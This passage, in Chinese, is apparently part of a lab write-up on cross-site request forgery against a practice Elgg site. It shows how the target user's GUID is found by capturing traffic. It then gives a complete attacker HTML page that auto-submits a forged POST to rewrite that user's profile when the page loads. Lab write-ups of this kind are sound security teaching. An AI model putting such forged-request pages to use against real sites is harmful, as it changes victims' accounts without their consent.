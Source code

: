 观察到 URL 值应为 /action/profile/edit ，提交的表单中需要包含需要修改信

息的用户的 GUID，获取 GUID 的方式为使用自己的账户登录并试图添加 Alice

为好友，用 HTTPHeaderLive 抓取，可以观察到发送的 GUID 为 42。因此编写恶

意网页信息如下：

去/var/www/CSRF/Attacker 写进index.html，

```
<html><body>
	<h1>This page forges an HTTP POST request.</h1>
	<script type="text/javascript">
		function post(url,fields) {
	
			var p = document.createElement("form");
		
			p.action = url;
			p.innerHTML = fields;
			p.target = "_self";
			p.method = "post";
			
			document.body.appendChild(p);
		
			p.submit();
		}
		function csrf_hack() {
			var fields;
			fields += "<input type='hidden' name='name' value='Alice'>";
			fields += "<input type='hidden' name='description' value='Hi, this is zyx'>";
			fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
			fields += "<input type='hidden' name='briefdescription' value=''>";
			fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
			fields += "<input type='hidden' name='location' value=''>";
			fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
			fields += "<input type='hidden' name='guid' value='42'>";
			var url = "http://www.csrflabelgg.com/action/profile/edit";
			post(url,fields);
		}
		
		window.onload = function() { csrf_hack();}
	</script>
</body></html>
```

用 Charlie 发邮件，点击链接，得到下图
